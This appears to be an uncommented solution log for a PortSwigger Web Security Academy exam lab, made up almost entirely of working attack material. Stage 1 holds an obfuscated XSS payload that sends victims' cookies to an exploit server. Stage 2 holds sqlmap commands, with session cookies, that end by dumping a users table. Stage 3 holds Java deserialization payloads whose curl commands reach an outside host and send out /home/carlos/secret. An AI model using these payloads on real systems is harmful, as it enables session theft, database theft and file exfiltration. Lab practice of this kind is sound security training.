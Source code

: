 stage 1

fetch("https://exploit-0a9b009e04a8929682d05f8e015100d4.exploit-server.net/?c="+btoa(document['cookie'])) base64-ezve:
ZmV0Y2goImh0dHBzOi8vZXhwbG9pdC0wYTliMDA5ZTA0YTg5Mjk2ODJkMDVmOGUwMTUxMDBkNC5leHBsb2l0LXNlcnZlci5uZXQvP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp

"+eval(atob("ZmV0Y2goImh0dHBzOi8vZXhwbG9pdC0wYTliMDA5ZTA0YTg5Mjk2ODJkMDVmOGUwMTUxMDBkNC5leHBsb2l0LXNlcnZlci5uZXQvP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp"))}//

<script>
location = "https://0a9700a504d29218829f608d009f0069.web-security-academy.net/?SearchTerm=%22%2Beval%28atob%28%22ZmV0Y2goImh0dHBzOi8vZXhwbG9pdC0wYTliMDA5ZTA0YTg5Mjk2ODJkMDVmOGUwMTUxMDBkNC5leHBsb2l0LXNlcnZlci5uZXQvP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp%22%29%29%7D%2F%2F"
</script>

stage 2

python3 sqlmap.py -u 'https://0a9700a504d29218829f608d009f0069.web-security-academy.net/advanced_search?SearchTerm=aa&organize_by=DATE&blogArtist=' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: session=04P1Odvmp3d1T8mdjAzzIZJ3nP4kMixh; _lab=46%7cMCwCFCLZehc2VF7%2bRvCbZ%2bcKMC9QCZfQAhRDw0gIZFU9v9aEKv1aJ06rIIpK5gNbPA5Wt3tY5li%2fYJzEk%2fUOaKgqPHUkRyEIQ%2fADl3nxUwZpz3GLf1uQDSCs19S94%2bW1vQRnUx0l2EbZLoBBleUUzZ6BweUxhoUXIz3IS7wdYs8LW%2f0%3d' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: none' -H 'Sec-Fetch-User: ?1' -H 'TE: trailers' -p 'organize_by' -batch


python3 sqlmap.py -u 'https://0a9700a504d29218829f608d009f0069.web-security-academy.net/advanced_search?SearchTerm=aa&organize_by=DATE&blogArtist=' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: session=04P1Odvmp3d1T8mdjAzzIZJ3nP4kMixh; _lab=46%7cMCwCFCLZehc2VF7%2bRvCbZ%2bcKMC9QCZfQAhRDw0gIZFU9v9aEKv1aJ06rIIpK5gNbPA5Wt3tY5li%2fYJzEk%2fUOaKgqPHUkRyEIQ%2fADl3nxUwZpz3GLf1uQDSCs19S94%2bW1vQRnUx0l2EbZLoBBleUUzZ6BweUxhoUXIz3IS7wdYs8LW%2f0%3d' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: none' -H 'Sec-Fetch-User: ?1' -H 'TE: trailers' -p 'organize_by' -batch --flush-session --dbms postgresql --technique E --level 5


python3 sqlmap.py -u 'https://0a9700a504d29218829f608d009f0069.web-security-academy.net/advanced_search?SearchTerm=aa&organize_by=DATE&blogArtist=' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: session=04P1Odvmp3d1T8mdjAzzIZJ3nP4kMixh; _lab=46%7cMCwCFCLZehc2VF7%2bRvCbZ%2bcKMC9QCZfQAhRDw0gIZFU9v9aEKv1aJ06rIIpK5gNbPA5Wt3tY5li%2fYJzEk%2fUOaKgqPHUkRyEIQ%2fADl3nxUwZpz3GLf1uQDSCs19S94%2bW1vQRnUx0l2EbZLoBBleUUzZ6BweUxhoUXIz3IS7wdYs8LW%2f0%3d' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: none' -H 'Sec-Fetch-User: ?1' -H 'TE: trailers' -p 'organize_by' -batch --flush-session --dbms postgresql --technique E --level 5 --dbs


python3 sqlmap.py -u 'https://0a9700a504d29218829f608d009f0069.web-security-academy.net/advanced_search?SearchTerm=aa&organize_by=DATE&blogArtist=' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: session=04P1Odvmp3d1T8mdjAzzIZJ3nP4kMixh; _lab=46%7cMCwCFCLZehc2VF7%2bRvCbZ%2bcKMC9QCZfQAhRDw0gIZFU9v9aEKv1aJ06rIIpK5gNbPA5Wt3tY5li%2fYJzEk%2fUOaKgqPHUkRyEIQ%2fADl3nxUwZpz3GLf1uQDSCs19S94%2bW1vQRnUx0l2EbZLoBBleUUzZ6BweUxhoUXIz3IS7wdYs8LW%2f0%3d' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: none' -H 'Sec-Fetch-User: ?1' -H 'TE: trailers' -p 'organize_by' -batch --flush-session --dbms postgresql --technique E --level 5 -D public --tables

python3 sqlmap.py -u 'https://0a9700a504d29218829f608d009f0069.web-security-academy.net/advanced_search?SearchTerm=aa&organize_by=DATE&blogArtist=' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: hu-HU,hu;q=0.8,en-US;q=0.5,en;q=0.3' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: session=04P1Odvmp3d1T8mdjAzzIZJ3nP4kMixh; _lab=46%7cMCwCFCLZehc2VF7%2bRvCbZ%2bcKMC9QCZfQAhRDw0gIZFU9v9aEKv1aJ06rIIpK5gNbPA5Wt3tY5li%2fYJzEk%2fUOaKgqPHUkRyEIQ%2fADl3nxUwZpz3GLf1uQDSCs19S94%2bW1vQRnUx0l2EbZLoBBleUUzZ6BweUxhoUXIz3IS7wdYs8LW%2f0%3d' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: none' -H 'Sec-Fetch-User: ?1' -H 'TE: trailers' -p 'organize_by' -batch --flush-session --dbms postgresql --technique E --level 5 -D public -T users --dump


stage 3

Compress using gzip
Encode using Base64
Encode using URL encoding

CommonsCollections7 'curl https://547ky7x77s0wgog2b0hozp6bb2ht5l29r.oastify.com'

CommonsCollections7 'curl https://547ky7x77s0wgog2b0hozp6bb2ht5l29r.oastify.com -d @/home/carlos/secret'
